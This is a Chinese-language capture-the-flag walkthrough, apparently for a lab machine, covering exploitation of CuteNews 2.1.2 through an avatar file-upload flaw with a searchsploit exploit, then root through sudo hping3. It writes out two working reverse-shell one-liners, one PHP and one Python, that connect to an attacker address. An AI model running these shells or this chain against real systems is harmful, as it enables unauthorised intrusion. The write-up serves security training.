扫描之后看到开放端口有22和80，直接打开80端口。



发现是Apache2 Debian默认页面




路径扫描发现存在index.php，打开后看到是CuteNwes2.1.2



搜索和cutenews相关的漏洞。`searchsploit cutenews`

可以看到有和2.1.2相关的漏洞。用`searchsploit -m`下载下来



查看漏洞详情，是一个文件上传漏洞。



首先注册一个用户，注册的时候看不到验证码，可以F12查看network，再次刷新的时候看到验证码，复制过去就可以注册。



上传漏洞点在更改用户头像的地方，可以手动注入。


这里使用EXP  48800.py进行渗透，在输入攻击url后没有拿到shell。

于是看一下提供的exp。



可以看到这里路径和我们攻击目标的路径不太一样，把这个删了之后重新使用exp。

成功拿到shell。然后用以下代码反弹shell。

```bash
php -r '$sock=fsockopen("192.168.45.163",2333);system("/bin/bash <&3 >&3 2>&3");’
```

home下面的user.txt提示我们flag在另外的地方



最后找到在/var/www路径中




# 提权



在https://gtfobins.github.io/gtfobins/hping3/中找到提权的利用方法。

但是在反弹shell中利用的时候一直报错，因为只支持`sudo hping3 --icmp`格式，格式稍微改变一下就不对，因此在这里一直卡住。

后来发现是反弹shell不对，然后换了一个反弹的方式：

```bash
export RHOST="192.168.45.163";export RPORT=2333;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")’
```

接下来就可以成功提权了



得到root flag


